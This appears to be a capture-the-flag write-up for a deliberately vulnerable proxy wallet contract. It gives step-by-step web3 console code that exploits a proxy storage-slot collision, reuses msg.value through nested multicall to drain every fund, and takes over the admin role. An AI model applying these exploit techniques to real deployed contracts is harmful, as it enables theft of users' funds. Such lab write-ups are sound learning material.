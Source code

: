 ## Step 1
Become `owner` in implementation, in order to use `addToWhitelist`:
- `owner` is slot 0 in implementation, `pendingAdmin` is slot 0 in proxy; so set attacker(`player`) as `pendingAdmin`.
#### Step 1 console code
- `fnSig = {name: 'proposeNewAdmin', type: 'function', inputs: [{type: 'address', name: '_newAdmin'}]}`
- `data = web3.eth.abi.encodeFunctionCall(fnSig, [player])`
- `await web3.eth.sendTransaction({from: player, to: contract.address, data})`
- confirm with: `await contract.owner()`; should be address of attacker

## Step 2
Use `addToWhitelist` to add attacker to `whitelisted`, in order to access implementation functions; `multicall` `execute` `setMaxBalance`
#### Step 2 console code
- `await contract.addToWhitelist(player)`
- confirm with `await contract.whitelisted(player)`

## Step 3
Drain all funds from the implementation, in order to use `setMaxBalance`:
- use `deposit` via `multicall`, so that `msg.value` can be reused, in order to set `balances[attacker]` to maximum
- use `execute` to withdraw all funds to attacker
#### Step 3 console code
- `depositData = await contract.methods["deposit()"].request().then(value => value.data)`
- `multicallDepositData = await contract.methods["multicall(bytes[])"].request([depositData]).then(value => value.data)`
- `await contract.multicall([multicallDepositData, multicallDepositData], {value: 0.001 * 10**18})`
- `await contract.execute(player, await contract.balances(player).then(n=>n.toNumber()), 0)`
- confirm with `await getBalance(contract.address)`; should be 0 as all funds drained

## Step 4
Use `setMaxBalance` to set value of `admin` in proxy to attacker
#### Step 3 console code
- `await contract.setMaxBalance(player)`
